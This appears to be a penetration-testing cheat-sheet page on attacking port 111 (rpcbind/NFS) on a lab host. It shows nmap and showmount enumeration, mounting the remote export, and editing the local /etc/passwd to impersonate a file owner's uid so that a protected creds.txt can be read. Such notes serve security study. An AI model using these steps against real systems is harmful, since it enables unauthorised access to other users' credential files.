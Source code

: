 # Port 111 - RpcBind

## Basic Information

### Nmap enumerations

```text
nmap -p 111 --script nfs* 10.11.1.72
```

### Manual enumerations

```text
showmount -e 10.11.1.72
```

## Mounting rpc share

```text
kali@kali:~$ mkdir /mnt/home
kali@kali:~$ sudo mount -t nfs -o vers=3  10.11.1.72:/home /mnt/home
```

## Getting access denied on files

### Impersonate user uid

```text
ls -aln ./
-rwx------ 1 1014 1014   48 Oct 28  2019 creds.txt
```

> cat /etc/passwd
>
> pwn:x:1001:1001:,,,:/home/pwn:/bin/bash

Changing the uid of the user pwn to impersonate the file owner on rpbind.

```text
sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

